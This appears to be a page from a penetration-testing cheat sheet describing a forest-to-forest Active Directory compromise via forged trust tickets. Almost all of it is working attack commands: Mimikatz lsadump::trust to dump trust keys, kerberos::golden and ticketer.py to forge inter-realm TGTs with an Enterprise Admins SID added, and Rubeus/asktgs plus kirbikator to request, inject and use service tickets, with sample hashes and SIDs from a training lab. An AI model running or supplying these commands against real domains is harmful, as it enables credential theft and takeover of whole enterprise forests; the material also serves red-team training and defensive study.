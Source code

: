 # Forest to Forest Compromise - Trust Ticket

* Require: SID filtering disabled

From the DC, dump the hash of the `currentdomain\targetdomain$` trust account using Mimikatz (e.g. with LSADump or DCSync). Then, using this trust key and the domain SIDs, forge an inter-realm TGT using
Mimikatz, adding the SID for the target domain's enterprise admins group to our **SID history**.

## Dumping Trust Passwords (trust keys)

> Look for the trust name with a dollar ($) sign at the end. Most of the accounts with a trailing **$** are computer accounts, but some are trust accounts.

```powershell
lsadump::trust /patch

or find the TRUST_NAME$ machine account hash
```

## Create a Forged Trust Ticket (inter-realm TGT)

* using **Mimikatz**

    ```powershell
    mimikatz(commandline) # kerberos::golden /domain:domain.local /sid:S-1-5-21... /rc4:HASH_TRUST$ /user:Administrator /service:krbtgt /target:external.com /ticket:c:\temp\trust.kirbi
    mimikatz(commandline) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:moneycorp.local /ticket:c:\ad\tools\mcorp-ticket.kirbi
    ```

* using **Ticketer**

    ```ps1
    ticketer.py -nthash <NT_HASH> -domain-sid <S-1-5-21-SID> -domain <domain.lab> -extra-sid <S-1-5-21-SID_ENTERPRISE_ADM-519> -spn <krbtgt/domain.lab> <dummy name> 

    # -nthash: The hash to authenticate as the trust account.
    # -domain-sid: The SID for the domain that the account is valid in. 
    # -domain: The domain which the creds are valid on.
    # -extra-sid: The SID for Enterprise Admin's Group
    # -spn: The target service for the other domain
    # <dummy name>: The user doesn't have to be real.
    ```

## Use the Trust Ticket file to get a Service Ticket

```powershell
.\asktgs.exe c:\temp\trust.kirbi CIFS/machine.domain.local
.\Rubeus.exe asktgs /ticket:c:\ad\tools\mcorp-ticket.kirbi /service:LDAP/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
```

Inject the Service Ticket file and access the targeted service with the spoofed rights.

```powershell
kirbikator lsa .\ticket.kirbi
ls \\machine.domain.local\c$
```

## References

* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)
